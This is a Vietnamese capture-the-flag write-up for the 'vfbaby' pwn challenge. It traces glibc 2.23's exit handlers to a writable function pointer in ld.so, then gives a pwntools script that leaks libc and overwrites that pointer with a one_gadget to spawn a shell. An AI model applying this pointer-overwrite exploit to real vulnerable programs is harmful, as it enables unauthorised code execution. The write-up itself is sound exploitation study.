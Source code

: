 # write up vfbaby 
- khi mở chương trình lên, chương trình cho phép em có thể có được địa chỉ của libc
```shell
as@vfbaby🍎 ls
flag  howtoror17.txt  ld-2.23.so  libc-2.23.so  libc.so.6  ptr_guard.py  solve.py  vfbaby  vfbaby.i64  vfbaby.md  vfbaby.py  vfbaby_patched  vfbaby_patched-origin  vfbaby_patched-origin.i64  vfbaby_patched.i64
as@vfbaby🍎 ./vfbaby         
here is a gift 0x767a58e553a0, good luck ;)
```
-  Bài tập trung vào lỗi của exit vì bài có arbitrary read, nhìn vào hàm dường như không thấy gì ngoài việc ta có thể ghi dữ liệu vào 1 địa chỉ nào đó thông qua read vì thế em có thể dùng read để ghi 1 cái gì đó vào vùng ghi được của libc

```assembly
  0x7c0c1f3c0000     0x7c0c1f3c4000 r--p     4000 1c0000 /home/as/pwnable/vfbaby/libc-2.23.so
    0x7c0c1f3c4000     0x7c0c1f3c6000 rw-p     2000 1c4000 /home/as/pwnable/vfbaby/libc-2.23.so
    ```
khi debug và đi sâu xuống hàm exit(), em bắt gặp nó call cái địa chỉ này, đây chính là nó đang call hàm __run_exit_handlers
```assembly
 ► 0x5d00caa00780 <exit@plt>     jmp    qword ptr [rip + 0x20085a]    <exit>
    ↓
   0x7c0c1f03a030 <exit>         lea    rsi, [rip + 0x38a5c1]
   0x7c0c1f03a037 <exit+7>       sub    rsp, 8
   0x7c0c1f03a03b <exit+11>      mov    edx, 1
   0x7c0c1f03a040 <exit+16>      call   0x7c0c1f039f10                <0x7c0c1f039f10>
 
   0x7c0c1f03a045                nop    word ptr cs:[rax + rax]
   0x7c0c1f03a04f                nop    
   0x7c0c1f03a050 <on_exit>      push   rbp
   0x7c0c1f03a051 <on_exit+1>    push   rbx
   0x7c0c1f03a052 <on_exit+2>    mov    rbx, rdi
   0x7c0c1f03a055 <on_exit+5>    lea    rdi, [rip + 0x38a59c]
   ```


```C
void
exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
```

- tiếp tục đi sâu vào hàm đó thì em thấy nó call 1 hàm khác là rdx, và khi nó mov giá trị từ địa chỉ $rax-0x18 thì nó xor với 1 giá trị khác ở vùng fs:0x30 để có được 1 địa chỉ libc có thể thực thi, cả 2 vùng đều có thể ghi được nhưng có 1 vấn đề là các giá trị này random nên em không thể ghi vào đó để khai thác,  hiện tại em chỉ sở hữu libc nên em phải tìm 1 chỗ khác tương tự

 
```assembly
  0x7c0c1f039fde    add    rax, r13
   0x7c0c1f039fe1    mov    rdx, qword ptr [rax + 0x18]
   0x7c0c1f039fe5    mov    rdi, qword ptr [rax + 0x20]
   0x7c0c1f039fe9    ror    rdx, 0x11
   0x7c0c1f039fed    xor    rdx, qword ptr fs:[0x30]
 ► 0x7c0c1f039ff6    call   rdx                           <0x7c0c1f410ab0>
 
   0x7c0c1f039ff8    jmp    0x7c0c1f039f30                <0x7c0c1f039f30>
 
   0x7c0c1f039ffd    nop    dword ptr [rax]
   0x7c0c1f03a000    shl    rax, 5
   0x7c0c1f03a004    mov    rax, qword ptr [r13 + rax + 0x18]
   0x7c0c1f03a009    ror    rax, 0x11

  ```
- khi đi sâu vào hàm mà đc call từ rdx, ta sẽ thấy có 1 vị trí call khác là  ``` call   qword ptr [rip + 0x216414]   ```
```assembly
  0x75aba1e10ae0    lea    rax, [rax + rax*8]
   0x75aba1e10ae4    lea    rcx, [rip + 0x215555]         <_rtld_global>
   0x75aba1e10aeb    shl    rax, 4
   0x75aba1e10aef    lea    r12, [rcx + rax - 0x88]
   0x75aba1e10af7    jmp    0x75aba1e10b27                <0x75aba1e10b27>
    ↓
 ► 0x75aba1e10b27    lea    rdi, [rip + 0x215e1a]         <_rtld_global+2312>
   0x75aba1e10b2e    call   qword ptr [rip + 0x216414]    <0x75aba1e00c90>
 
   0x75aba1e10b34    mov    ecx, dword ptr [r12]
   0x75aba1e10b38    test   ecx, ecx
   0x75aba1e10b3a    je     0x75aba1e10b00                <0x75aba1e10b00>
 
   0x75aba1e10b3c    mov    rax, qword ptr [r12 - 8]
```
- lệnh call đó có nghĩa là nó sẽ call giá trị chứa trong địa chỉ $rip+0x216414 với $rip được tính theo câu lệnh trước đó ở đây $rip =    0x75aba1e10b34
- khi check thì địa chỉ tại đây có quyền đọc ghi nên em có thể dùng để khai thác
```assembly
pwndbg> vm 0x75aba1e10b34+0x216414
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x75aba2025000     0x75aba2026000 r--p     1000  25000 /home/as/pwnable/vfbaby/ld-2.23.so
►   0x75aba2026000     0x75aba2027000 rw-p     1000  26000 /home/as/pwnable/vfbaby/ld-2.23.so +0xf48
    0x75aba2027000     0x75aba2028000 rw-p     1000      0 [anon_75aba2027]
```
- sau khi xong thì em có thể dùng onegadget và ghi 3 byte đầu vào thông qua arbitrary read

```python
p.recvuntil(b'a gift ')
input()
addr = p.recvuntil(b',', drop=True)
leak_addr = int(addr, 16)
base_libc = leak_addr - 0xcc230
one_gadget = base_libc + 0xf02a4
write_addr = base_libc+0x626f48

part1_onegadget = one_gadget & 0xff
part2_onegadget = (one_gadget >> 8) & 0xff
part3_onegadget = (one_gadget >> 16) & 0xff


xor2 = leak_addr+ 0x2f9a28 
xor1 = leak_addr 
push_rbp_ld = leak_addr + 3426432

p.sendafter(b'good luck ;)',p64(write_addr))
input()
p.send(p64(part1_onegadget))
input()
p.send(p64(write_addr + 1))
input()
p.send(p64(part2_onegadget))
input()
p.send(p64(write_addr + 2))
input()
p.send(p64(part3_onegadget))
input()
```

- sau khi chạy code thì shell vẫn được thực thi nhưng stdout bị đóng nên cần phải nhập ```bash exec 1>&- ``` để mở lại stdout
- test thử khả năng run ở local
```bash
as@vfbaby🍎 ls
2               libc-2.23.so  vfbaby          vfbaby_patched-origin      vfbaby_patched-origin.id2
flag            libc.so.6     vfbaby.i64      vfbaby_patched-origin.i64  vfbaby_patched-origin.nam
howtoror17.txt  ptr_guard.py  vfbaby.py       vfbaby_patched-origin.id0  vfbaby_patched-origin.til
ld-2.23.so      solve.py      vfbaby_patched  vfbaby_patched-origin.id1  vfbaby_patched.i64
```
```bash
  $ cat flag > lmao
[DEBUG] Sent 0x10 bytes:
    b'cat flag > lmao\n'
```
```bash
as@vfbaby🍎 ls
2               libc.so.6     vfbaby.i64                 vfbaby_patched-origin.id0  vfbaby_patched.i64
flag            lmao          vfbaby.py                  vfbaby_patched-origin.id1
howtoror17.txt  ptr_guard.py  vfbaby_patched             vfbaby_patched-origin.id2
ld-2.23.so      solve.py      vfbaby_patched-origin      vfbaby_patched-origin.nam
libc-2.23.so    vfbaby        vfbaby_patched-origin.i64  vfbaby_patched-origin.til
```
